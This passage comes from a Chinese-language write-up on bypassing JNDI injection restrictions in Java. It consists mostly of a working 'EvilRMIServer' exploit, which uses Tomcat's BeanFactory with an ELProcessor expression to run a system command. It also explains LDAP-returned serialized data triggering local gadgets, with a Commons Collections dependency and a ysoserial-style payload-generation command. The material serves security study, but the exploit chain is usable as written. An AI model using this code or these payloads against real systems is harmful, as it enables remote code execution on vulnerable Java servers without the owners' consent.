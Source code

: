 ‍

EXP

```plain
package jndi.bypass;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(3377);
        // 实例化 Reference，指定目标类为 javax.el.ELProcessor，工厂类为 org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的 setter 从'setX'变为'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd', '/c', 'calc']).start()\")"));
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

‍

‍

## 利用 LDAP 返回序列化数据，触发本地 Gadget

其实这里就是在分析 LDAP+JNDI 的时候他有个类似 swich 的东西，当时传入的是引用类，所以走了引用类的逻辑，但是如果我们传入的是序列化的对象，并且后续会被反序列化，那么就相当于存在了一个天然的反序列化入口了，就可以触发本地的 Gadget 了

‍

本地调试下 先添加 CC 的依赖

```plain
<dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
```

‍

```plain
java -jar y4-yso.jar CommonsCollections6 "calc" > 1.ser | base64
```
